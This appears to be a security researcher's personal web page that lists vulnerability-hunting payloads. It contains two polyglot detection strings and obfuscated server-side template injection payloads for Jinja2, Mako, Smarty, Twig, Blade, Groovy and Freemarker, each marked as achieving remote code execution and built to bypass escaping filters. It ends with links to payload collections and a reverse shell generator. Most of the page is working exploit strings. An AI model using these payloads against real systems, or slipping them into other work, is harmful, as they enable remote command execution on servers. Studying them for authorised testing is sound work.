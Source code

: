 ```yaml
---
# the default layout is 'page'
icon: fa-solid fa-book-skull
order: 3
---
```


A list of payloads that I do use when hunting for vulnerabilities. Personaly, I rarly use exploitation payloads but instead detection payloads.

> All payloads shown on this page are created by me. I provide a basic overview of my payloads Exploitation payloads and more advanced detection payloads will not be shared.
{{'{'}}: .prompt-info }

## Polyglot payloads
> This payload focuses on the detection of syntax errors

```brainfuck
<z>"z'z`%}})z${{'{'}}{{'{'}}z\
```

> This payload focuses on detecting transformation that can be used in future attacks

```brainfuck
tfmtstart%255Az%5Az\x5Az\u005Az%26%23x5A%3Btfmtend
```

## Server Side Template Injection (SSTI)
### Double template rendering payloads

> Some of the indexes used in the payload to extract characters for strings may need to be changed depending on the application you are using.
{: .prompt-info }

> These payloads can be used to bypass `autoescape` / `html escape` filters.
{: .prompt-tip }


#### Jinja2

**Impact:** Remote Code Execution (RCE)

```python
{{'{'}}{{'{'}}self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[150:152]+self.__init__.__globals__.__str__()[694]).read()}}
```

#### Mako

**Impact:** Remote Code Execution (RCE)

```python
${{'{'}}self.module.cache.util.os.popen(str().join(chr(i)for(i)in[105,100])).read()}
```

#### Smarty

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99)|cat:chr(104)|cat:chr(114),[105,100])))}}
```

#### Twig

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}id~passthru~_context|join|slice(2,2)|split(000)|map(_context|join|slice(5,8))}}
```
```php
{{'{'}}%block U%}id000passthru{{'{'}}%endblock%}{{'{'}}%set x=block(_charset|first)|split(000)%}{{'{'}}{{'{'}}[x|first]|map(x|last)|join}}
```

####  Blade

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99).chr(104).chr(114),[105,100])))}}
```

#### Groovy

**Impact:** Remote Code Execution (RCE)

```javascript
${{'{'}}x=new String();for(i in[105,100]){{'{'}}x+=((char)i).toString()};x.execute().text}
```

#### Freemarker

**Impact:** Remote Code Execution (RCE)

```java
${{'{'}}(6?lower_abc+18?lower_abc+5?lower_abc+5?lower_abc+13?lower_abc+1?lower_abc+18?lower_abc+11?lower_abc+5?lower_abc+18?lower_abc+1.1?c[1]+20?lower_abc+5?lower_abc+13?lower_abc+16?lower_abc+12?lower_abc+1?lower_abc+20?lower_abc+5?lower_abc+1.1?c[1]+21?lower_abc+20?lower_abc+9?lower_abc+12?lower_abc+9?lower_abc+20?lower_abc+25?lower_abc+1.1?c[1]+5?upper_abc+24?lower_abc+5?lower_abc+3?lower_abc+21?lower_abc+20?lower_abc+5?lower_abc)?new()(9?lower_abc+4?lower_abc)}
```

You can find a lot of great resources related to payloads below.
- [Payloads All The Things
](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Reverse Shell Generator](https://www.revshells.com/)

